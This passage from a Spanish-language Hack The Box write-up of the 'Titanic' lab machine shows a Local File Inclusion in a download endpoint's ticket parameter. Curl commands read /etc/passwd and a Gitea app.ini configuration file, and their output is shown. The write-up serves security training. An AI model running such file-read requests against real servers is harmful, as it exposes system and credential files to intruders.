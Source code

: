 ![](assets/img/htb-writeup-titanic/titanic1_6.png)

---
## Vulnerability Exploitation

La función vulnerable se encuentra en el parámetro `ticket` del endpoint `/download`. Este recurso es invocado automáticamente luego de enviar el formulario de reserva a través de `/book`, el cual redirige hacia `/download?ticket=` para descargar un archivo JSON con los datos ingresados.

{% include embed/video.html src='assets/img/htb-writeup-titanic/titanic2_1.webm' types='webm' title='' autoplay=true loop=true muted=true %}

El parámetro `ticket` permite especificar una ruta de archivo local, lo que habilita un Local File Inclusion.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ curl -s http://titanic.htb/download?ticket=/etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

Para localizar rutas sensibles relacionadas con Gitea, reviso la [documentación oficial](https://docs.gitea.com/installation/install-with-docker#customization). Allí se especifica que la configuración personalizada queda almacenada en `/data/gitea/conf/app.ini`, o bien dentro del volumen nombrado como `/var/lib/docker/volumes/gitea_gitea/_data/gitea/conf/app.ini`.

A partir del archivo `gitea/docker-compose.yml` presente en el repositorio `docker-config` de Gitea, concluyo que la ruta al archivo `app.ini` es `/home/developer/gitea/data/gitea/conf/app.ini`.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ curl --path-as-is http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini
...[snip]...
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable
...[snip]...
```
